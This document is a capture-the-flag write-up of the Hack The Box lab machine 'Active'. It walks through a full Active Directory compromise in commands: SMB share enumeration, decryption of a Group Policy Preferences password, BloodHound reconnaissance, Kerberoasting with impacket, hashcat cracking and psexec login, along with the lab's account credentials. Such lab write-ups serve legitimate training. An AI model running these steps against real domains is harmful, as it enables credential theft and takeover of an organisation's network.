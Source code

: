 ```yaml
---
layout: post
title: My first writeup! Hack The Box, Active
tags: [hackthebox, Active Directory, Bloodhound, hashcat, GPP]
---
```

![logo](/boxes/htb/active/activeDirectory.PNG)

### i. Port Scan
![nmap portscan](/boxes/htb/active/nmap.PNG)
### ii. Enumeration
SMB ports were listed open on the nmap scan. Let's check if any shares are available with smbclient and smbmap.
```
smbclient -L 10.10.10.100
smbmap -H 10.10.10.100
```
smbclient:   
![smbclient](/boxes/htb/active/smbclient.PNG)

smbmap:  
![smbmap](/boxes/htb/active/smbmap.PNG)

smbmap reveals a file share called Replication with read only permissions. smbmap can be used to list the contents of the Replication directory:
```
smbmap -R Replication -H 10.10.10.100
```
Looking through the contents of the Replication directory there is a file called Groups.xml. This is a group policy file where local account information is typically stored for older Active Directory implementations.

![ReplicationFiles](/boxes/htb/active/groupsxml.PNG)

To download the file we use:
```
smbmap -R Replication -H 10.10.10.100 -A Groups.xml -q
```
Taking a look at the Groups.xml file, an account `SVC_TGS` and `edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH` encyrpted password was found. This password is encrypted with a known key:
```
https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be
![msftknownkey](image)
```
```
![groups.xmlhash](/boxes/htb/active/grouphash.png)
```
To decrpyt the password, we use gpp-decrpyt:
```
![gppdecrypt](/boxes/htb/active/gppdecrypt.png)
```
The decrypted hash is `GPPstillStandingStrong2k18`
Using the credentials we found we enumerate more shares
```
smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100
```
![moreshares](/boxes/htb/active/)

The user flag was found under `SVC_TGS\Desktop\`

Now that we have credentials, let's Bloodhound the box. We switch to a windows vm and get a command prompt with the following command:
```
runas /netonly /user:active.htb\svc_tgs cmd
```
Make sure to check your DNS settings on your network adapter and set it to 10.10.10.100. Run sharphound with the following command to gather information:
```
sharphound.exe -c all -d active.htb --domaincontroller 10.10.10.100
```
We then drag and drop the zip file created from sharphound into the user interface of Bloodhound on our Kali machine. Checking for domain admin did not reveal anything. Checking for kerberoasting, the user `ADMINISTRATOR` is available for this attack.
![kerberoasting](image)
Using GetUserSPN.py from impacket we will grab the hash of `ADMINISTRATOR`
```
GetUserSPN.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs
```
![adminhash](image)
We copy the hash into a file and use hashcat to crack the hash via the following command:
```
hashcat -m 13100 hash.txt rockyou.txt 
```
![crackedhash](image)
The Administrator password is: `Ticketmaster1968`

Now we can use psexec and log into the box and get the root flag
```
psexec.py active.htb/Administrator@10.10.10.100
```
![rootflag](image)
